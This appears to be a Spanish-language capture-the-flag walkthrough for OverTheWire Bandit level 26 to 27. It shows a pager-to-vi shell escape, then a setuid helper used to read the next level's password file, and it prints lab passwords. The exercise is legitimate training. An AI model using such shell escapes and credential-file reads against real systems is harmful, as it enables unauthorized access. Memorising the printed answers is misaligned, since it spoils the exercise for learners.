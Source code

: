 **Bandit **

**Objetivo**
¡Buen trabajo consiguiendo una concha! ¡Ahora date prisa y obtén la contraseña para bandit27!

**Datos de acceso**
server: **bandit.labs.overthewire.org** 
usuario: **bandit26**
contraseña: c7GvcKlw9mC7aUQaPx7nwFstuAIBw1o1
**Solucion**
```bash
se hace chiquita la pantalla
y se pone :set shell=/bin/bash
y luego shell

:shell
bandit26@bandit:~$ ls -la
total 44                                                                             
drwxr-xr-x  3 root     root      4096 Sep  1 06:30 .
drwxr-xr-x 49 root     root      4096 Sep  1 06:30 ..                                
-rwsr-x---  1 bandit27 bandit26 14872 Sep  1 06:30 bandit27-do
-rw-r--r--  1 root     root       220 Jan  6  2022 .bash_logout
-rw-r--r--  1 root     root      3771 Jan  6  2022 .bashrc
-rw-r--r--  1 root     root       807 Jan  6  2022 .profile
drwxr-xr-x  2 root     root      4096 Sep  1 06:30 .ssh
-rw-r-----  1 bandit26 bandit26   258 Sep  1 06:30 text.txt
bandit26@bandit:~$ ./bandit27-do cat /etc/bandit_pass/bandit27
YnQpBuifNMas1hcUFk70ZmqkhUU2EuaS
bandit26@bandit:~$  
```
**Notas adicionales** 

**Referencias** 